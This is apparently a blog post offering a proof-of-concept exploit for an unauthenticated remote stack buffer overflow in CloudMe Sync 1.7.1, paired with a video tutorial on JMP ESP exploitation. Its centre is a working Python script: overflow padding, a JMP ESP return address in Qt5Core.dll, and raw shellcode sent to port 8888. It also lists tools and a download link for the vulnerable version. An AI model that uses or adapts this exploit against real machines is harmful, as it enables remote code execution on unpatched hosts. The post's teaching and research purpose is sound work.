 ```yaml
---
author: Haquor
date: 2019-07-22 11:59:59+00:00
draft: false
title: 'CloudMe Buffer Overflow Exploit'
type: post
url: /2019/07/22/video-buffer-overflow-exploit/
---
```


{{< youtube id="7AcmeiFNfiQ" autoplay="false" >}}

<!--more-->


    import socket, struct

    print 'CloudMe Sync v.1.7.1'
    print 'Unauthenticated Remote Buffer Overflow'
    # 'Author: Haquor'
    # 'Discovery: hyp3rlinx'

    ip = 'localhost'
    port = 8888

    buffer = 'N' * 1036
    buffer += struct.pack('<L', 0x688dd4ed) #JMP ESP {PAGE_EXECUTE_READ} [Qt5Core.dll]
    buffer += ("\x31\xF6\x56\x64\x8B\x76\x30\x8B\x76\x0C\x8B\x76\x1C\x8B"
    "\x6E\x08\x8B\x36\x8B\x5D\x3C\x8B\x5C\x1D\x78\x01\xEB\x8B"
    "\x4B\x18\x8B\x7B\x20\x01\xEF\x8B\x7C\x8F\xFC\x01\xEF\x31"
    "\xC0\x99\x32\x17\x66\xC1\xCA\x01\xAE\x75\xF7\x66\x81\xFA"
    "\x10\xF5\xE0\xE2\x75\xCF\x8B\x53\x24\x01\xEA\x0F\xB7\x14"
    "\x4A\x8B\x7B\x1C\x01\xEF\x03\x2C\x97\x68\x2E\x65\x78\x65"
    "\x68\x63\x61\x6C\x63\x54\x87\x04\x24\x50\xFF\xD5\xCC")

    sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    sock.connect((ip, port))
    sock.send(buffer)

    print 'Sending the BOF exploit...'

## [About the software](https://github.com/Haquor/cloudme-exploit#about-the-software)







Just a quick PoC to go along with YouTube [demonstration](https://youtu.be/7AcmeiFNfiQ).







Crafting a buffer overflow exploit is way easier than it looks. In 
this video, I'll show you how to write an exploit for stack-based buffer
 overflow using the JMP ESP instruction.
Using a vulnerable CloudMe executable and Immunity Debugger we can 
hijack the program flow to run our custom shellcode.







Required Software





  * Python (IDLE, python 2.7)  * Metasploit Framework  * Dynamic Analyzer (Debugger): Immunity on Windows, gdb on linux





Target
- [CloudMe Sync 1.7.1](https://cloudme.en.uptodown.com/windows/download/50719)







To check if file has DEP/ALSR/SafeSEH enabled on Windows use [Get-PESecurity Powershell script](https://github.com/NetSPI/PESecurity)







CVE: [https://www.exploit-db.com/exploits/44027](https://www.exploit-db.com/exploits/44027)







Shellcode: [https://gist.github.com/Haquor/30b333ce61ca263ffa3a6d53315cd4d3](https://gist.github.com/Haquor/30b333ce61ca263ffa3a6d53315cd4d3)



